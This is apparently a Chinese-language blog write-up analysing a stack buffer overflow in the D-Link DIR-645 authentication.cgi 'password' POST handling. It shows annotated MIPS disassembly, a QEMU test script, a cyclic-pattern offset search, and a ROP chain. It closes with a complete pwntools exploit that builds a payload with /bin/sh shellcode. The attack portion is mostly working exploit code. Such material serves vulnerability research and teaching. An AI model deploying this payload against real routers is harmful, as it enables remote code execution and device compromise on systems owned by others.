






D-Link authentiction 缓冲区溢出漏洞
漏洞介绍
D-Link DIR-645中authentiction.cgi在读取POST“password”参数时存在缓冲区溢出漏洞。
漏洞分析

在authenticationcgi_main函数中：
1
2
3
4
5
6
7
8
| loc_40B454:
la $t9, strcmp
move $a0, $s1 # s1
jalr $t9 ; strcmp
addiu $a1, (aPost - 0x420000) # "POST"
lw $gp, 0xF90+var_F78($sp)
bnez $v0, loc_40BC9C # v0 = 0 请求方式为POST，不跳转
move $a1, $zero # c
|
该函数通过loc_40B454判断请求类型是否为POST，当请求为POST时进入以下分支，获取环境变量的值：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
| la $t9, memset
li $a2, 0x184 # n
jalr $t9 ; memset #申请大小为0x184的内存，初始化为0
move $a0, $s3 # s
lw $gp, 0xF90+var_F78($sp)
lui $a0, 0x42 # 'B'
la $t9, getenv
nop
jalr $t9 ; getenv
la $a0, aContent_type # "CONTENT_TYPE"
lw $gp, 0xF90+var_F78($sp)
lui $a0, 0x42 # 'B'
la $t9, getenv
la $a0, aContent_length # "CONTENT_LENGTH"
jalr $t9 ; getenv
move $s0, $v0 # 这里的v0是上一个函数getenv("CONTENT_TYPE")的返回结果
lw $gp, 0xF90+var_F78($sp)
beqz $s0, loc_40B610 # 判断CONTENT_TYPE，s0=0 跳转结束函数
addiu $a0, $sp, 0xF90+var_938
beqz $v0, loc_40B614 #这里的v0为CONTENT_LENGTH的值，为0则跳转结束函数
addiu $a1, $sp, 0xF90+var_E1C
|
通过getnev函数或取环境变量CONTENT_TYPE、CONTENT_LENGT的值后，通过read函数获取post传递的参数:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
| la $t9, atoi
nop
jalr $t9 ; atoi
move $a0, $v0 # nptr
lw $gp, 0xF90+var_F78($sp)
move $s0, $v0 # 获取转换为int类型的length
la $v1, stdin
la $t9, fileno
lw $a0, (stdin - 0x4353CC)($v1) # stream
jalr $t9 ; fileno #获取文件描述符，通过v0传递给下面read函数
addiu $s1, $sp, 0xF90+var_430 # 栈缓冲区
lw $gp, 0xF90+var_F78($sp)
move $a0, $v0 # fd，设置文件描述符
la $t9, read
move $a1, $s1 # 设置缓冲区
jalr $t9 ; read
move $a2, $s0 # nbytes from length，需要读取的长度 漏洞出现在这里， 没有对content_length的值进行验证，当length超长时将造成缓冲区溢出
bltz $v0, loc_40B60C
addu $v0, $s1, $s0
|
上述过程在read读取传递的数据时，使用了未作长度限制的CONTENT_LENGTH的值造成了缓冲区溢出。
漏洞利用
测试脚本
1
2
3
4
5
6
7
| run.sh
#!/bin/bash
INPUT="$1"
TEST="$2"
LEN=$(echo -n "$INPUT" | wc -c)
echo "$INPUT" | sudo chroot . ./qemu-mipsel-static -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded" -E REQUEST_METHOD="POST" -E HTTP_COOKIE=$TEST -E REQUEST_URI="/authentication.cgi" -E REMOTE_ADDR='192.168.1.1' -g 1234 ./htdocs/web/authentication.cgi
|
确定偏移
经测试发现当字符串过长时，会使getenv函数无法正常工作，使得无法控制ra寄存器的值。
使用pattern.py创建1100个字符串填充password字段，确定偏移：
1
2
3
| cat auth
id=1234&password=Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk
./run.sh `cat auth` uid=1234
|

确定ra偏移为1051
创建ROP
IDA加载lib下的libc.so.0动态连接库，然后通过ropmips工具寻找rop链。
libc.s0.0为动态加载，需要确定基地址，可使用gdb的vmmap确定基地址，或通过执行过程中的libc函数地址减去偏移确定基地址。
ROP链思路：
1.a0 = 1
2.调用sleep()
3.shellcode位置确定
4.调用栈上shellcode
1.通过mipsrop.find(“li $a0,1”)寻找到a0赋值为1的gadget，地址为0x0002F0F8：

s4寄存填充为下一条gadget地址
2.调用sleep()，通过mipsrop.tail()寻找函数调用gadget，找到地址为0x00024CEC：

s1寄存器填充为sleep函数的地址，根据lw $ra, 0x28+var_4($sp)，ra为sleep函数执行后的返回地址，填充为下一条gadget地址。
3.使用mipsrop.stackfinder() 寻找栈上shellcode保存的gadget，找到地址为0x0000B814：

shellcode填充位置为sp+0x18，并将地址保存到a1寄存器，s1填充下一条gadget地址。
4.调用shellcode，现在shellcode地址在a1寄存器，通过mipsrop.find(“move $t9,$a1”)寻找调用shellcode的gadget，找到地址为0x00037E6C：

完整exp
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
| from pwn import *
sleep_addr = 0x00056BD0
base_addr = 0x76738000
rop1 =0x0002F0F8
rop2 =0x00024CEC
rop3 =0x0000B814
rop4 =0x00037E6C
shellcode="\xff\xff\x06\x28"
shellcode+="\xff\xff\xd0\x04"
shellcode+="\xff\xff\x05\x28"
shellcode+="\x01\x10\xe4\x27"
shellcode+="\x0f\xf0\x84\x24"
shellcode+="\xab\x0f\x02\x24"
shellcode+="\x0c\x01\x01\x01"
shellcode+="/bin/sh"
payload = 'id=1234&password='
payload += 'a'*1019
payload += p32(sleep_addr+base_addr) #s1
payload += 'a'*4
payload += p32(rop2+base_addr) #s3 测试发现s3必须为一个存在的地址，所以随意填写一个存在的地址。
payload += p32(rop2+base_addr) #s4
payload += 'a'*16
payload += p32(rop1+base_addr) #ra
payload +='b'*0x1c
payload +=p32(rop4+base_addr) #s1
payload +='b'*4
payload +=p32(rop3+base_addr) #sleep -> ra
payload +='c'*0x18
payload +=shellcode
fp = open('content','wb')
fp.write(payload)
fp.close()
|